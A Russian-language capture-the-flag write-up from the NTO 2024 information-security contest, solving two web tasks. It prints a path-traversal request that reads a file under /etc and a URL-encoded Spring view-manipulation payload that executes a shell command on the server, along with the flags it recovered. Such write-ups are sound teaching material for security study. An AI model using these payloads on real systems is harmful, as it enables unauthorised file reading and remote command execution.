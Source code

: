 # Решения заданий НТО ИБ 2024 1337Rpwn4
# CTF

### WEB 1

Заходим на таск и видим календарь, один из дней на котором окрашен в типичную HTML-гиперссылку. Нажимаем. Идёт редирект на: `/download?file_type=file1.txt`

Пробуем LFI:
```
download?file_type=../../../../../../../../../etc/secret
```

Флаг: `nto{P6t9_T77v6RsA1}`

### WEB 2

Заливаем `jar`-файл в `jd-gui` и видим следующий, казалось бы, пустой метод:

```
  @GetMapping({"/doc/{document}"})
  public void getDocument(@PathVariable String document) {
    System.out.println("This function is not ready yet");
  }
```

Пробуем `Spring View Manipulation Vulnerability`:

```
/doc/__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat%20flag%22).getInputStream()).next()%7D__::..x
```

Флаг: `nto{abobovichasdfas}`
